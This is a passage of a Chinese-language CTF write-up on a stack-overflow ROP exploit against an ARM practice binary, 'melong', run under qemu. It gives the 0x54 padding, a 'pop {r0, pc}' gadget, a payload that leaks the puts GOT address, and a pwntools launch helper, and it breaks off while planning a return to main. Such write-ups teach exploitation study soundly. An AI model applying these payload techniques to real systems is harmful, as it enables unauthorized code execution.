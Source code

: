 首先，在main函数，可以确定需要padding的长度为0x54。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-150714.png)

⚠️：此时，在ARM程序中，要特别注意，我们无需覆盖BP指针的值，我们之前说过(见上文的堆栈规则)ARM下的入栈顺序，可以看到事实上返回地址之前并没有BP指针需要伪造。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-03-035533.png)

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-150940.png)

然后利用`ROPgadget`可以获取程序里可供利用的`gadget`。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-03-040249.png)

此处我们选用`0x00011bbc : pop {r0, pc}`

那么可以构造payload。

`payload = 'A'*0x54 + p32(0x00011bbc) + p32(melong.got['puts']) + p32(melong.plt['puts'])`

然后我们进行调试，注意，我们需要调试时，程序的启动方式需要变更。

```
def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    elif remote_gdb:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabi", "./melong"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./melong"])
```

需要在本地启动一个gdb server，然后新开一个终端窗口进行附加。

我们在main函数返回处下断~

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-03-120811.png)

可以看到，执行流确实被我们劫持了，并且程序确实输出了`puts`的`GOT`表地址。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-07-151107.png)

##### <a class="reference-link" name="%E8%BF%94%E5%9B%9Emain%E5%87%BD%E6%95%B0"></a>返回main函数

接下来我们想要让程序返回main函数从而做二次利用。

但是在调试时发现程序在进入puts函数时`IR`寄存器的值并没有发生变化，这导致在puts函数执行结束后程序会回到`0x0011270`的位置，这将会导致程序再次执行`LDMFD SP!, {R11,PC}`。进而导致栈混乱。
